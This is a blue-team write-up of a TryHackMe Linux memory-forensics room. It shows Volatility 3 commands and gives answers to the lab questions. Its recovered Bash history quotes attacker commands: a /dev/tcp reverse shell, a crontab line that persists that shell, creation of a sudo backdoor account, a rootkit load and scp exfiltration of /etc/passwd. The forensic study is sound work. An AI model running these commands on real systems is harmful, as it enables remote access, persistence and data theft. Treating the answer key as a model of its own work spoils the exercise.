










# Linux Memory Analysis

| | |
|---|---|
| **Room** | Linux Memory Analysis |
| **Difficulty** | Medium (60 min) |
| **Link** | [tryhackme.com/room/linuxmemoryanalysis](https://tryhackme.com/room/linuxmemoryanalysis) |
| **Path** | Advanced Endpoint Investigations |
| **Module** | Memory Analysis |
| **Tooling** | Volatility 3 Framework 2.26.2 |
| **Evidence** | `FS-01.mem` (Linux 5.15.0-1066, host FS-01) |

---

## Overview

This room continues the **TryHatMe Incident THM-0001** investigation, this time on the compromised Linux file server **FS-01**, which the adversary reached via lateral movement. Using Volatility 3, we hunt through a full memory dump for the attacker's footprints: suspicious processes, network connections, and shell activity.

**Why it matters for SOC / blue team:** on Linux, attackers routinely wipe `.bash_history` and hide tooling in `/tmp` or `/dev/shm`. Memory still preserves process trees, command lines, sockets, and shell history, so a RAM capture may be the only place the full attack chain survives.

**Learning objectives**

- Understand Linux vs Windows memory layout and process models
- Use Volatility 3 to investigate Linux memory
- Identify odd processes, network connections, and user activity

**Prerequisites:** Volatility, Linux Live Analysis, Windows Memory & User Activity, Windows Memory & Processes.

---

## Task 1: Introduction

Introduces the room's goals and prerequisites. Memory is one of the most volatile and revealing evidence sources: running processes, open files, network connections, and credentials can all be recovered from it.

*No questions in this task.*

---

## Task 2: Scenario Information

Continuation of the TryHatMe scenario (a company that exclusively sells hats online). On **May 5th, 2025, 07:30 CET** TryHatMe escalated the incident. After initial triage a Windows host was found compromised, and the investigation then revealed that the Linux server **FS-01** was also compromised.

| Field | Value |
|---|---|
| Hostname | FS-01 |
| OS | Linux 5.15.0-1066 |
| Capture | 07:45 CET, taken by analyst Steve Stevenson |
| Memory dump | `FS-01.mem` |
| MD5 | `c0fbf40989bda765b8edaa41f72d3ee9` |


*No questions in this task.*

---

## Task 3: Lab Connection

Start the Lab Machine (about 3 minutes to load). The memory image is located at:

```
/home/ubuntu/Desktop/artifacts/FS-01.mem
```

*No questions in this task.*

---

## Task 4: Memory Overview: Linux vs Windows

Background task on how Linux manages memory and processes compared with Windows.

### Memory model comparison

| Feature | Linux | Windows |
|---|---|---|
| Swap | Configurable swap partition or file | `pagefile.sys` |
| Process memory structure | `/proc/<pid>/maps`: stack, heap, mmap regions | VADs (Virtual Address Descriptors) per process |
| Tools | `top`, `free`, `vmstat`, `/proc` | Task Manager, RAMMap, WinDbg |

Linux gives every process a virtual address space, translated to physical addresses by the MMU via page tables. Shared libraries and files are loaded with `mmap()`, and kernel memory is managed separately from user programs. Unused pages can be moved to swap.

### Process model comparison

| Feature | Linux | Windows |
|---|---|---|
| Process structure | `task_struct` (kernel) | `EPROCESS` kernel object |
| Threads | Lightweight processes (`clone()` flags); each has its own ID | Live inside the process |
| Hierarchy | True parent-child (`pstree`) | Exists, but often obscured |
| Listing | `/proc`, `ps`, `top` | Task Manager, `tasklist`, `Get-Process` |
| Artifacts | `/proc/<pid>/` (`cmdline`, `status`, `maps`, `exe`, `cwd`) | Must be parsed from a memory image |

A process comprises a PID, a virtual address space (code, heap, stack, memory-mapped files), an execution context (registers, scheduler metadata), open file descriptors, and a place in the parent/child process tree.

### Anatomy of a Linux process (`/proc`)

| Path | Contents |
|---|---|
| `/proc/<pid>/cmdline` | Command-line arguments |
| `/proc/<pid>/status` | Metadata such as UID, memory usage, thread count |
| `/proc/<pid>/exe` | Symlink to the executed binary |
| `/proc/<pid>/maps` | Memory layout |
| `/proc/<pid>/fd/` | Open file descriptors |

> 💡 **Tip:** Linux exposes live process artifacts through `/proc`; in a memory dump, Volatility reconstructs equivalents of these views from kernel structures.

*No questions in this task.*

---

## Task 5: Hunting for Suspicious Processes

Goal: review what was running at capture time and look for unusual process names, odd parent-child relationships, anomalous users, hidden processes, and suspicious arguments.

### Verify the image hash

```bash
md5sum FS-01.mem
```

### Volatility 3 basics

```bash
vol3 --help
vol3 --help | grep linux
```

Volatility 3 needs the symbol table matching the OS build to parse the dump, so first identify the kernel banner:

```bash
vol3 -f FS-01.mem banners.Banners
```

The banner confirms `Linux version 5.15.0-1066-aws` (Ubuntu 5.15.0-1066.72~20.04.1-aws).

### Plugins used

| Plugin | Purpose | Forensic value |
|---|---|---|
| `linux.pslist.PsList` | Processes linked in the kernel task list | Baseline of visible processes; spot tools such as `nc`, `python`, `wget` |
| `linux.psscan.PsScan` | Signature scan of memory for processes | Finds hidden, unlinked, or terminated processes; compare with `pslist` to catch stealth malware |
| `linux.psaux.PsAux` | Processes with full command-line arguments | Reveals suspicious flags and reverse shells; correlate PIDs with other plugins |
| `linux.proc.Maps` | Per-process memory mappings (like `/proc/<pid>/maps`) | Detects injected shellcode, `rwx` regions, binaries loaded from `/tmp` |

```bash
vol3 -f FS-01.mem linux.pslist.PsList
vol3 -f FS-01.mem linux.pslist.PsList > ps_output
vol3 -f FS-01.mem linux.psscan.PsScan
vol3 -f FS-01.mem linux.psaux.PsAux
vol3 -f FS-01.mem linux.proc.Maps
```

> 💡 **Tip:** Some of these plugins take a while. Their output is pre-saved in the artifacts folder (`md5_hash`, `linux_banner`, `pslist_output`, `psscan_output`, `psaux_output`, `procmap_output`).

> 🔴 **Attacker relevance:** `psscan` matters most after compromise, because attackers who unlink or hide processes will still leave a signature-detectable structure in memory.

### Questions

**What is the MD5 hash of the image we are investigating?**

```
c0fbf40989bda765b8edaa41f72d3ee9
```



**What is the PID of the suspicious Netcat process?**

```
15011
```



**What is the name of the suspicious process running from the hidden tmp directory?**

```
.strokes
```



**What port number was used while setting up a Python server to transfer files?**

```
9090
```



**A suspicious process with PID 821 was found running on the system. What is the full path of the process?**

```
/home/mircoservice/printer_app
```



---

## Task 6: Hunting for Suspicious Network Activities

Attackers use reverse shells, backdoors, and tunnels, so memory can be the only place these connections are visible. This task looks at open connections, reverse shells, socket details, and network interfaces.

| Plugin | Purpose | Forensic value |
|---|---|---|
| `linux.ip.Addr` | Interfaces, MAC and IP addresses | Identify the host's addressing |
| `linux.ip.Link` | Layer 2 interface information | Spot suspicious VPN or tunnel interfaces |
| `linux.sockstat.Sockstat` | Kernel socket usage (process, PID, addresses, ports, state) | Reveals backdoors and reverse shells via unexpected sockets |

```bash
vol3 -f FS-01.mem linux.ip.Addr
vol3 -f FS-01.mem linux.ip.Link
vol3 -f FS-01.mem linux.sockstat.Sockstat
```

> 💡 **Tip:** `Sockstat` takes about 2 minutes. Pre-saved outputs: `ip.addr_output`, `ip.link_output`, `socket_output`.

> 🔴 **Attacker relevance:** Look for established connections owned by interpreters or shells (for example `python`) and for unexpected listeners on high ports.

### Questions

**What is the IP address of the remote server, to which a TCP connection was established using python?**

```
10.100.1.125
```



**What was the IP address of the infected host found in the record?**

```
10.10.163.215
```


**What is the MAC address of the network interface associated with the infected device?**

```
02:83:88:6b:5a:1f
```



**What is the port number opened for the reverse shell by the adversary on the infected host?**

```
9898
```



---

## Task 7: Hunting for User Activities

Attackers interact with Linux hosts through shells (`bash`, `sh`, `python`), and their commands often remain in memory after the processes end.

| Plugin | Purpose | Forensic value |
|---|---|---|
| `linux.bash.Bash` | Recovers Bash history from memory | Reveals attacker actions in plaintext, even if history was wiped on disk |
| `linux.envars.Envars` | Process environment variables | Detects modified `PATH` or custom binary locations; adds execution context |

```bash
vol3 -f FS-01.mem linux.bash.Bash
vol3 -f FS-01.mem linux.envars.Envars
```

> 💡 **Tip:** Pre-saved outputs: `bash_output`, `envars_output`.

### Attacker activity recovered from Bash history

All entries are dated 2025-06-02 (UTC). Sensitive values are redacted in the room output.

| Time (UTC) | Activity | Command (as shown) |
|---|---|---|
| 10:12 to 10:15 | Backdoor account creation | `useradd ... -m -s /bin/bash`, `chpasswd`, `usermod -aG sudo ...` |
| 10:15 | SSH persistence setup | `mkdir /home/.../.ssh` |
| 10:34 | Reverse shell | `bash -i >& /dev/tcp/10.[REDACTED]/4567 0>&1` |
| 10:13 and 10:36 | Privilege escalation | `sudo su` |
| 10:36 | Cron persistence | `echo "* * * * * root bash -i >& /dev/tcp/10.[REDACTED]/4567 0>&1" >> /etc/crontab` |
| 10:37 | Rootkit load (typo `isnmod`, then retry) | `insmod rootkit.ko` |
| 10:39 | Hidden script execution | `chmod +x /dev/shm/.runme.sh`, then `/dev/shm/.runme.sh` |
| 10:41 | Exfiltration | `scp /etc/passwd root@10.10.34.91:/home/` |

> 🔴 **Attacker relevance:** The chain shows a classic Linux post-exploitation pattern: create a privileged account, persist through SSH and cron, load a kernel rootkit, stage a hidden script in `/dev/shm`, then exfiltrate `/etc/passwd`.

### MITRE ATT&CK mapping (analyst mapping)

| Behaviour | Technique |
|---|---|
| Backdoor account creation | T1136.001 Create Account: Local Account |
| `sudo su` | T1548.003 Abuse Elevation Control: Sudo and Sudo Caching |
| Reverse shell via Bash | T1059.004 Command and Scripting Interpreter: Unix Shell |
| Cron entry in `/etc/crontab` | T1053.003 Scheduled Task/Job: Cron |
| `insmod rootkit.ko` | T1547.006 Boot or Logon Autostart: Kernel Modules and Extensions |
| Hidden `/dev/shm/.runme.sh` | T1564.001 Hide Artifacts: Hidden Files and Directories |
| Python HTTP server file transfer | T1105 Ingress Tool Transfer |
| `scp /etc/passwd` | T1048 Exfiltration Over Alternative Protocol |

### Questions

**The network team has detected a suspicious attempt to create a new account on the system. Can you investigate and find the name of the backdoor account created?**

```
james
```



**The bash history shows a suspicious command that established a reverse shell. What is the attacker's IP address?**

```
10.12.14.32
```



---

## Task 8: Conclusion

Covered in this room: identifying suspicious processes, finding the hidden process running from a tmp directory, examining processes with suspicious arguments, reviewing Bash history, and exploring network connections to find reverse shells.

Suggested follow-up rooms: [Linux Logs Investigation](https://tryhackme.com/r/room/linuxlogsinvestigations), [Linux Process Analysis](https://tryhackme.com/room/linuxprocessanalysis), [Linux Forensics](https://tryhackme.com/r/room/linuxforensics).

---

## Key Takeaways

- **Cross-check `pslist` against `psscan`.** Differences reveal hidden or terminated processes.
- **`psaux` exposes intent.** Arguments such as `python3 -m http.server` or a Netcat listener stand out immediately.
- **Hidden paths are a red flag.** Dot-prefixed binaries in `/tmp` and `/dev/shm` are common staging locations.
- **Sockets tell the network story.** `sockstat` ties connections and listeners to the owning process and PID.
- **Memory keeps shell history.** `linux.bash.Bash` can recover the account creation, persistence, rootkit load, and exfiltration commands even when disk history is gone.
- **Volatility 3 needs matching symbols.** Identify the kernel with `banners.Banners` first.

📌 **Cross-room note:** This room follows the Windows Memory series (Processes, User Activity, Network) and shows the Linux side of the same THM-0001 lateral-movement scenario.

---

*Write-up by **OPT4RUN***